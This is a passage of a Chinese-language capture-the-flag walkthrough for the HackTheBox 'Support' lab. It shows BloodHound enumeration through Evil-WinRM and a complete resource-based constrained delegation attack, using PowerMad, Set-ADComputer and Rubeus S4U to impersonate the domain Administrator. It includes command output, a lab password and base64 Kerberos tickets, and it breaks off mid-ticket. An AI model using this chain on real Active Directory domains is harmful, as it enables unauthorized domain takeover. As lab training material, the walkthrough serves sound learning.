ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=support,DC=htb
Forest                             : support.htb	//林,看是不是单林环境
InfrastructureMaster               : dc.support.htb
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb}
LostAndFoundContainer              : CN=LostAndFound,DC=support,DC=htb
ManagedBy                          :
Name                               : support
NetBIOSName                        : SUPPORT	//老域名，有些工具用 SUPPORT\user
ObjectClass                        : domainDNS
ObjectGUID                         : 553cd9a3-86c4-4d64-9e85-5146a98c868e
ParentDomain                       :
PDCEmulator                        : dc.support.htb		//主域控,攻它 = 拿整个域
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=support,DC=htb
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {dc.support.htb}
RIDMaster                          : dc.support.htb
SubordinateReferences              : {DC=ForestDnsZones,DC=support,DC=htb, DC=DomainDnsZones,DC=support,DC=htb, CN=Configuration,DC=support,DC=htb}
SystemsContainer                   : CN=System,DC=support,DC=htb
UsersContainer                     : CN=Users,DC=support,DC=htb


*Evil-WinRM* PS C:\Users\support\Documents> 

```
#### 添加域控
```
[★]$ sudo sed -i 's/10.129.6.171 support.htb/10.129.6.171 support.htb dc.support.htb/' /etc/hosts
```
#### 我们还可以检查当前用户是否是任何感兴趣的组的成员。
```
*Evil-WinRM* PS C:\Users\support\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```
#### 看SUPPORT\Shared Support Accounts
#### support用户似乎也是一个名为共享支持帐户的非默认组的成员作为Authenticated Users组。让我们使用BloodHound来识别这个域的潜在攻击路径这可以帮助我们增加特权。首先，让我们安装BloodHound所需的Neo4j数据库。
```
[★]$ sudo neo4j start
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:117720). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```
#### 然后我们可以从发布页面下载预编译的《寻血猎犬》二进制文件。下载了正确的归档为我们的CPU类型，我们可以提取并执行它。
https://github.com/SpecterOps/BloodHound-Legacy/releases
```
[★]$ unzip BloodHound-linux-x64.zip
```
#### 点击登录，把寻血猎犬暂时放在一边，因为我们必须从远程收集数据在我们继续之前。为此，让我们继续在本地克隆BloodHound GitHub项目
https://github.com/SpecterOps/BloodHound-Legacy
```
[★]$ git clone https://github.com/BloodHoundAD/BloodHound
[★]$ ls BloodHound/
Collectors            main.js            server.js
docs                  package.json       src
index.html            package-lock.json  webpack.config.development.js
LICENSE-3RD-PARTY.md  README.md          webpack.config.production.js
LICENSE.md            renderer.js
[★]$ ls BloodHound/Collectors/
AzureHound.md  DebugBuilds  SharpHound.exe  SharpHound.ps1
```
#### 我们将使用SharpHound.exe二进制文件来收集活动目录数据，这些数据可以在BloodHound中找到项目，特别是在BloodHound/Collectors/目录中。我们可以使用之前打开的Evil-WinRM会话来上传它(前提是SharpHound.exe存在于与我们启动Evil-WinRM的文件夹相同)。
```
[~/BloodHound/Collectors][★]$ evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/syareya55/BloodHound/Collectors/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe
<SNIP>
2026-01-31T00:12:05.3242712-08:00|INFORMATION|SharpHound Enumeration Completed at 12:12 AM on 1/31/2026! Happy Graphing!

```
#### 执行完成后，我们可以看到在同一目录中创建了一个Zip文件
```
*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/31/2026  12:12 AM          12357 20260131001204_BloodHound.zip
-a----         1/31/2026  12:10 AM        1046528 SharpHound.exe
-a----         1/31/2026  12:12 AM          10022 YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin

*Evil-WinRM* PS C:\Users\support\Documents> download 20260131001204_BloodHound.zip
                                        
Info: Downloading C:\Users\support\Documents\20260131001204_BloodHound.zip to 20260131001204_BloodHound.zip
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\support\Documents> exit
                                        
Info: Exiting with code 0
```
#### 下载后，我们只需要将压缩文件拖放到BloodHound窗口中即可加载获得的数据。加载完数据后，我们可以在左上角搜索SUPPORT@SUPPORT.HTB角，以便找到当前用户。然后我们可以右键单击用户对象并选择将用户标记为用来指定我们已经以该用户的身份访问系统。
```
[★]$ cd BloodHound-linux-x64
[~/Downloads/BloodHound-linux-x64][★]$ ls
BloodHound              libGLESv2.so            resources.pak
chrome_100_percent.pak  libvk_swiftshader.so    snapshot_blob.bin
chrome_200_percent.pak  libvulkan.so            swiftshader
chrome-sandbox          LICENSE                 v8_context_snapshot.bin
icudtl.dat              LICENSES.chromium.html  version
libEGL.so               locales                 vk_swiftshader_icd.json
libffmpeg.so            resources
[~/Downloads/BloodHound-linux-x64][★]$ ./BloodHound --no-sandbox --disable-gpu
```
#### 然后就先在浏览器上的本地7474端口输入：账户neo4j 密码neo4j
#### 其次在弹跳出的BloodHound输入：账户neo4j 密码neo4j ，在就点击Upload data上传20260131001204_BloodHound.zip
#### 在BloodHound搜索框输入：SUPPORT@SUPPORT.HTB，双击选择‘！ Mark User as Owned'
#### 我们可以看到组委托对象控制部分显示值为1。该值显示用户所属的组是否有权访问控制对象在域中。让我们点击它来查看更多细节。
#### 'Node Info' -> 'Group Delegated Object Control'

#### 实际上，输出显示Shared Support Accounts组在系统上具有GenericAll特权由于支持用户是该组的成员，因此他们也具有所有权限直流。右键单击GenericAll行并选择Help可提供有关此操作的更多信息特权以及如何利用它。

#### BloodHound提到，由于GenericAll特权，我们可以执行基于资源的约束授权（RBCD）攻击并升级我们的特权。
### Resource Based Constrained Delegation 基于资源的约束授权
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html
#### 简而言之，通过基于资源的约束委托攻击，我们可以将计算机添加到我们对域的控制；让我们将这台计算机命名为$FAKE-COMP01，并配置域控制器（DC）允许$FAKE-COMP01代表它行动。然后，通过代表DC，我们可以请求Kerberos $FAKE-COMP01的门票，具有在域中冒充高级特权用户的能力，例如署长。生成Kerberos票据后，我们可以传递票据（PtT）并进行身份验证作为这个特权用户，我们可以控制整个域。
```
这种攻击依赖于三个先决条件：
[1]我们需要作为属于Authenticated Users组的域用户执行shell或代码。默认情况下，此组的任何成员最多可以将10台计算机添加到域。
[2]ms-ds-machineaccountquota属性值需要大于0。此属性控制通过身份验证的域用户可以添加到域的计算机数量。
[3]当前用户或用户所属的组需要具有WRITE权限（GenericAll, WriteDACL）通过加入域的计算机（在本例中是域控制器）。
```
#### 从前面的枚举中，我们知道支持用户确实是类的成员认证用户组以及共享支持帐户组。我们也知道共享支持帐户组对域控制器具有GenericAll权限（dc.support.htb）
#### 让我们检查ms-ds-machineaccountquota属性的值。任何 没有其他特殊权限的管理员用户最多可以创建10 个计算机对象（MachineAccountQuota），并为其设置SPN
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota


DistinguishedName         : DC=support,DC=htb
ms-DS-MachineAccountQuota : 10
Name                      : support
ObjectClass               : domainDNS
ObjectGUID                : 553cd9a3-86c4-4d64-9e85-5146a98c868e

//这个域允许普通用户最多创建多少台计算机账户？10台
```
#### 上述命令的输出显示，该属性被设置为10，这意味着每个都经过身份验证域用户最多可以将10台计算机加入域。接下来，让我们验证msds-allowedtoactonbehalfofotheridentity属性是否为空。为此，我们PowerShell需要PowerView模块。我们可以通过Evil-WinRM上传到服务器，如图所示之前。然后我们可以用下面的命令导入它。
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
[★]$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

*Evil-WinRM* PS C:\Users\support\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> . ./PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> //一旦模块被导入，我们就可以使用Get-DomainComputer命令来查询所需的信息。

*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC


*Evil-WinRM* PS C:\Users\support\Documents>

```
#### 该值为空，这意味着我们准备执行RBCD攻击，但首先让我们上传工具这是必须的。我们将需要PowerMad和Rubeus，我们可以使用Evil-WinRM上传，如图所示之前。PowerMad可以通过以下命令导入。
https://github.com/Kevin-Robertson/Powermad
https://github.com/GhostPack/Rubeus
```
[★]$ git clone https://github.com/Kevin-Robertson/Powermad.git
[★]$ git https://github.com/GhostPack/Rubeus.git
[★]$ ls Powermad/
Invoke-DNSUpdate.ps1  Powermad.ps1   Powermad.psm1
LICENSE               Powermad.psd1  README.md
[★]$ ls Rubeus/
CHANGELOG.md  LICENSE  README.md  Rubeus  Rubeus.sln  Rubeus.yar
```
```
//Rubeus.sln 不能在 Evil-WinRM 里编译；只能在你自己的 Windows 编译好，再上传 Rubeus.exe//疯了

打开win11,下载了整个Rubeus压缩包，解压，点击 Rubeus.sln 使用VS2022打开
[1]右键 Rubeus 项目,选择 重新加载项目,选择.NET Framework 4.8
[2]生成 (Build) → 生成解决方案 。生成 exe，Rubeus\bin\Debug\Rubeus.exe
[3]https://file.io //使用这个文件从windows机传送Rubeus.exe到pwnbox
```
```
[★]$ evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb

*Evil-WinRM* PS C:\Users\support\Documents> upload Rubeus.exe
*Evil-WinRM* PS C:\Users\support\Documents> upload Powermad.ps1
                                        
*Evil-WinRM* PS C:\Users\support\Documents> . ./Powermad.ps1
```
### Creating a Computer Object //创建计算机对象
#### 现在，让我们创建一台假计算机并将其添加到域。我们可以使用PowerMad的New-MachineAccount为了实现这个目标
```
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) 
[+] Machine account FAKE-COMP01 added
```
#### 上面的命令将一台名称为FAKE-COMP01的机器添加到具有密码的域中Password123。我们可以用下面的命令验证这台新机器。
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -identity FAKE-COMP01 


DistinguishedName : CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb
DNSHostName       : FAKE-COMP01.support.htb
Enabled           : True
Name              : FAKE-COMP01
ObjectClass       : computer
ObjectGUID        : d1be5a06-af1a-4a7f-8e60-3b7614905bf6
SamAccountName    : FAKE-COMP01$
SID               : S-1-5-21-1677581083-3380853377-188903654-6101
UserPrincipalName :
```
#### 输出显示了FAKE-COMP01的详细信息，我们可以清楚地看到它被分配的SID值。
### Configuring RBCD
#### 接下来，我们需要通过以下两种方式之一配置基于资源的受限委托。我们可以通过内置将PrincipalsAllowedToDelegateToAccount值设置为FAKE-COMP01PowerShell Active Directory模块，它将自己配置msds-allowedtoactonbehalfofotheridentity属性，或者我们可以使用PowerView模块来直接设置msds-allowedtoactonbehalfofotheridentity属性。出于本演练的目的，我们将使用前者，因为它更容易理解。让我们使用Set-ADComputer命令用于配置RBCD。
```
*Evil-WinRM* PS C:\Users\support\Documents> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```
### 为了验证该命令是否有效，我们可以使用Get-ADComputer命令。
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC //DC 对 FAKE-COMP01 开启了 RBCD（资源约束委派）
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=FAKE-COMP01,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
```
#### 如我们所见，PrincipalsAllowedToDelegateToAccount被设置为FAKE-COMP01，这意味着指挥工作。我们还可以验证代表其他身份的msds-allow的值。
```
*Evil-WinRM* PS C:\Users\support\Documents> ls


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/1/2026   9:23 PM         135576 Powermad.ps1
-a----          2/1/2026   9:23 PM         770279 PowerView.ps1
-a----          2/1/2026   9:25 PM         515584 Rubeus.exe
-a----          2/1/2026   9:25 PM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\support\Documents> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

//DC（域控）已经被配置了“资源约束委派（RBCD）
```
#### 正如我们所看到的，代表其他标识的msds-allowedtoaction现在有了一个值，但是因为类型这个属性是原始安全描述符，我们必须将字节转换为字符串才能理解发生什么事了。首先，让我们获取所需的值并将其转储到一个名为RawBytes的变量中。
```
*Evil-WinRM* PS C:\Users\support\Documents> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```
#### 然后，让我们将这些字节转换为Raw Security Descriptor对象。
```
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```
#### 最后，我们可以打印整个安全描述符以及DiscretionaryAcl类表示访问控制列表，该列表指定可以代表DC进行操作的计算机
```
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor


ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80


*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-6101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```
#### 从输出中我们可以看到，SecurityIdentifier被设置为我们看到的FAKE-COMP01的SID将AceType设置为AccessAllowed。
### Performing a S4U Attack //S4U攻击
#### 现在是执行S4U攻击的时候了，这将允许我们获得代表的Kerberos票据管理员。我们会让鲁伯斯来执行这次攻击。首先，我们需要用于创建计算机对象的密码的散列。
```
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3


[*] Action: Calculate Password Hash(es)

[*] Input password             : Password123
[*] Input username             : FAKE-COMP01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake-comp01.support.htb
[*]       rc4_hmac             : 58A478135A93AC3BF058A5EA0E8FDB71
[*]       aes128_cts_hmac_sha1 : 06C1EABAD3A21C24DF384247BC85C540
[*]       aes256_cts_hmac_sha1 : FF7BA224B544AA97002B2BEE94EADBA7855EF81A1E05B7EB33D4BCD55807FF53
[*]       des_cbc_md5          : 5B045E854358687C


```
#### 我们需要获取名为rc4 hmac的值。接下来，我们可以为Administrator生成Kerberos票据。
```
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:FAKE-COMP01$
/rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: S4U

[*] Using rc4_hmac hash: 58A478135A93AC3BF058A5EA0E8FDB71
[*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE-COMP01$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFhDCCBYCgAwIBBaEDAgEWooIEmDCCBJRhggSQMIIEjKADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBFIwggROoAMCARKhAwIBAqKCBEAEggQ8vuJWp7Wu
      AAk+5/mpd3sy+cQre/zFh7USnTxrwEn5eHNU6VpfG0b7J51qktYqSsofd5JWRCg/ZvNO7yMBgEscpC1t
      F2jFXnVIo2Ca1OZJPpVTJdKDmNeGzutbPtGQFXjYhk34pjwdAmTuA3MQW0AD6nVXPpH26OB77NoHh+ES
      A/ywCW5ndqpN+a3jjAReDSrrW800VAPLdIUBesJnqlGyi5VURyD/6gr0ACZ8GzKgKSJN1g79SPivmLkm
      d4juvO0c9JCiFDbPB/1V7WwkPZfEU1NGhu2G1SdBq6fx/1SZmtM9wBBJqq0riI1omz0scuh1N3CVWr/7
      yrFUPL+sFdubf1Xz2+0cLUlpKv5noWZuygep8A/Qy2EWdQ8tgZ8zVcVUVihKwtUQVpFQcBTBEpnXeJ7l
      a63MokOhx+Nw2ry6KZhK7lRIj5FRH8EvDDRSpBp88BrHLapc9c94oxNJ5XaQbgzhfv1HXtrxSO/uZM0l
      xKAV2WLr7ej1V54I9AIty8WHJaB5Cz2mhSsAVhQaz7FzDvjWg5g5V5UlEJA2e4VxMviFLNH3ufh3XtMw
      LB5xgNyYpcICDqwBzYwx083KHYrGseiKVrh2Wub/gyAR9b7M8AW+I2OmyLG79tmqcUqYrGYzm6kRw6S0
      oi+F13QRTteONbIBWcmfVqeQovpRAFrfenrgnGKWkmIhCHlcTQHEnA7AOXeysh5/Zc9LpXTkalxhpr6M
      curFADEor7vF3X8LD35nemifzkmQBazO9YYM0YVLgOueNbK1zZU15aE63Cocb7hddG+Gu5PYicDZmwus
      SX4p5MzRLu6stHhn+HIbF+MyuEJazQHOMujVUMVdiSTAp5crJ2Mza0z6sJCnUcUVlfYdPgvTmEK5d2t+
      2otfi4BGQImnA3Z6X6xwAEcbWYDv1jiy3hrfhXU/UxUy5eQbSbtZxXDewPP8IH4InV+hKAJdnu/4/xAF
      hyGBcnYrIrt6C7iDalCPxmKiEHJW/F7xwPEGrpUCHfOt9Il8kKsMoQLBmQAjauva+cVrNNIpScif0yIL
      445iOXCyCHIrW60ssg0liuSUjQhYTOahgF40aT3VX/RrUEO2Jp8BjLMCPYdT9iGgmLhK4Hkh5j2HJ+JO
      54EhyKdM0ZkNHv0qnT+CzL8WDWid/VxFv9io8AJUgqQhQ2kbzVLlR4RqNRiog6gwAcyZy5a6uzuMzO7S
      CGFtIsY714wYAJms0Wv/jTPKiZWXHQqPDTkHPeUX6CaYnx4d+yH4tuRMuYXgsfaxjeIBit9wXWBdQ+E6
      NIGptI0ty0bnEPmS6Hq+nD44XRTYmdedqcxYsD1JX9u/FOtmJNRJBE8+62XflFnKgOQNc0PWvvMewnQh
      gUDqTHBe5PeBbmRP7jshX8PD6jpvUdrzW7hIKZIHnbpzCD1u0NXAzN2VhykcN7LY0c5i3Yjjhwgcn6OB
      1zCB1KADAgEAooHMBIHJfYHGMIHDoIHAMIG9MIG6oBswGaADAgEXoRIEEOyzh/sCdgZguUBAgFhrkkuh
      DRsLU1VQUE9SVC5IVEKiGTAXoAMCAQGhEDAOGwxGQUtFLUNPTVAwMSSjBwMFAEDhAAClERgPMjAyNjAy
      MDIwNjAzNDFaphEYDzIwMjYwMjAyMTYwMzQxWqcRGA8yMDI2MDIwOTA2MDM0MVqoDRsLU1VQUE9SVC5I
      VEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC3N1cHBvcnQuaHRi


[*] Action: S4U

[*] Building S4U2self request for: 'FAKE-COMP01$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'FAKE-COMP01$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      MA4bDEZBS0UtQ09NUDAxJA==

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGaDCCBmSgAwIBBaEDAgEWooIFejCCBXZhggVyMIIFbqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggUzMIIFL6ADAgESoQMCAQaiggUhBIIFHUBaxzyD
      j0qxqASKr1GNf/ZsWhy+hLb3mLCiWM13wXCBAFExeCfye+iQ2TrSAJf9IZol+YY9wuZZnM3TvChxvswi
      4xkkrMNIIcNVDqNB6hQor0mYcWiA1RphSDd3rWfpILCROIYC1C9LJ9zNrSfSx7G79t3RvXTL6O2lA3yY
      OY4HzzDBLjhenhrJUuynZ4W5nPVJLtlxNsFzzvlVQSXjLBJfsAZUT8JIfIJEnQPrRwuWa7CoTW8S5vAd
      uCGAX5c0TRmCPOU/iws+WG9qB6NwOhWlrlTEPjYRXQlqJQcw4NDv+dajQKoMWGfL3kUOrXv0beiRetRR
      BS7dNs6LHPC3m1NOLvxTdLk4wduQ/cOTNCnMV4U1YKPGXQFJKBSE0RWewjntcsCmEADoSa7kJQumUbWy
      4DRirfiqVsw9Li0B2JGGkeI17NYG7087Yevby+agVi/YLAE5HILrygtxE5HqxVPtyiKI29ZLZnfyl43u
      FDZdbUTkHkCgmOYmvDk1ZNVBqPQw0OeWBEHNFX6wkZslICxzSaP1ye3mTv7XjlSH/4mUHxiUujb7PXcY
      fLYO/BiJvpiWNlyhdCopvjr8zX0NSVMNj+29mixqQC6uPNp6FOwLbd52mVaS4tUI5PandRSnySX8GQPv
      EFzLtmGZjDDDjD8F/f02CZ7BAyANH4uNadpRxKbLzeqcZk9mXZcabJ4z+40WaCiNkXaVwuSpaBprReTk
      3o3s1OYDIQZfgtFhE+gL0FHgnW17QoHvBncaTs1jneg6PSf5RVTUJytICqkP3irdJDsG3zP19nryagsx
      X/UlUUONMvimi4mOWiz80Q0x1wIOSLOuusjdea9fWM8pg28VZSwtsDcq8Yd4YISDf+wIFaZNx0/fITW0
      7Bx9qpA792EMq2fFtCf1qw4DJMaN4F8p74AD8KXSNIw/jPot6h7j7Sxfs1MNkJXDcrk4wtYPX8UHKV5N
      lV9Woewyr4oG/2urpdIktiY5iBzMUBDEBx7B2m4T/0KeezpFqi8R7WGA8NJk4rsdPrZY0TBJPRsbEVK3
      BeeYkvkPpE6so+NRj7UXaYmlcLSWOrIjuJvABBqZrPCu115y7So2vRrEG7NoV9yWMb5pTyboWuB5CWVf
      ShTnQS7DXjtrx+z0AY2ghQ6ciwBpURYPyyFOxeIzcRdAdBrjfulhgLDwmdhu3/vWAbG/dh9S4FVxf5wx
      cENELC6lVCODHSc2QKN861MEmVwMn/0t59CzLo7xo7JFAi+RCOUl5lEu/CS3jTyjbkgbxh6SvCDFd8+b
      8PPa3Ie+NNA9UYBLTi5c6rzXQv6e0JttZZvlsoJ237LTjbCQDKDvGbUtQoRAPPSEXoq5c2PyPw87D+PN
      W8PR/tJ93Nq1bOy9+tXbXJY2OuvSsvftJnqo++2uUzAICnL6b4vP6ENygHCFaive67qmWe500SZ3MCUR
      1aixSkLEuO6gU9MM7gvU6VX/yqfsAG7QC2kW0gbpZfV3ind4m5BN+5hfupwPE6iEHm1t8+xVjqGwckYZ
